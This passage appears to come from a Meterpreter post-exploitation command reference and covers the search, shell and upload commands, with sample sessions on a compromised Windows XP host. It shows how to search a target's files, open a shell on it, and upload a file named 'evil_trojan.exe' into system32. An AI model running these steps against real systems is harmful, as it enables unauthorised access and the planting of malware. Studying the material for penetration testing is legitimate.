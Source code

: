 # 21 - search

The search commands provides a way of locating specific files on the target host. The command is capable of searching through the whole system or specific folders. Wildcards can also be used when creating the file pattern to search for.

```
meterpreter > search
[-] You must specify a valid file glob to search for, e.g. >search -f *.doc
```

ARGUMENTS:

File pattern:	 	May contain wildcards
Search location:	Optional, if none is given the whole system will be searched.


Example usage:

```
meterpreter > search -f autoexec.bat
Found 1 result...
    c:\AUTOEXEC.BAT

meterpreter > search -f sea*.bat c:\\xamp\\
Found 1 result...
    c:\\xampp\perl\bin\search.bat (57035 bytes)

meterpreter >
```

# 22 - shell

The shell command will present you with a standard shell on the target system.

```
meterpreter > shell

Process 39640 created.
Channel 2 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

# 23 - upload

As with the download command, you need to use double-slashes with the upload command.

```
meterpreter > upload evil_trojan.exe c:\\windows\\system32

[*] uploading  : evil_trojan.exe -> c:\windows\system32
[*] uploaded   : evil_trojan.exe -> c:\windows\system32\evil_trojan.exe

meterpreter >
```
